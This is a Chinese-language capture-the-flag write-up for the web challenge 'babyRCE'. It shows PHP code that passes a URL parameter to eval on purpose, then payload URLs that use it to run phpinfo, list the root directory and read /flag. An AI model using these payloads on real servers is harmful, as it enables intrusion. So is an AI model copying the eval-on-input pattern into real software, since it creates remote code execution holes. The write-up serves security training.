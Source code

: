 ```yaml
---
title: babyRCE
author: SMJB
difficulty: Trivial
category: Web
image: ghcr.io/svuctf/svuctf-helloworld-2024/rce:latest
port: 80
writeup_author: 13m0n4de
tags:
  - php
  - rce
reference:
---
```


# babyRCE

## 题目描述

## 题目解析

```php
<?php

highlight_file(__FILE__);

if (isset($_GET['rce'])) {
    eval($_GET['rce']);
}

```

- `highlight_file(__FILE__);`：这行代码会显示当前文件的源代码
- `if (isset($_GET['rce']))`：检查 URL 参数中是否存在名为 `rce` 的参数
- `eval($_GET['rce']);`：如果存在 `rce` 参数，则使用 PHP 的 `eval` 函数执行这个参数的内容

[eval](https://www.php.net/manual/en/function.eval.php) 是一个非常危险的 PHP 函数，它可以执行任意的 PHP 代码。当用户可以控制 `eval` 函数的输入时，就可以执行任意 PHP 代码，造成远程代码执行 (Remote Code Execution, RCE) 漏洞。

首先，我们可以先用一个简单的 PHP 代码来测试漏洞是否存在：

```
http://<IP>:<PORT>/?rce=phpinfo();
```

如果看到 PHP 配置信息页面，说明我们成功执行了 PHP 代码。

之后我们可以利用 [system](https://www.php.net/manual/en/function.system.php) 函数执行系统命令。

列出根目录文件：

```
http://<IP>:<PORT>/?rce=system("ls -la /");
```

查看 `/flag` 文件内容：

```
http://<IP>:<PORT>/?rce=system("cat /flag");
```

不使用系统命令也是可以的，可以只用 PHP 代码完成以上操作：

```
http://<IP>:<PORT>/?rce=print_r(scandir('/'));
http://<IP>:<PORT>/?rce=echo file_get_contents('/flag');
```

只是大多时候，执行系统命令会更加方便。
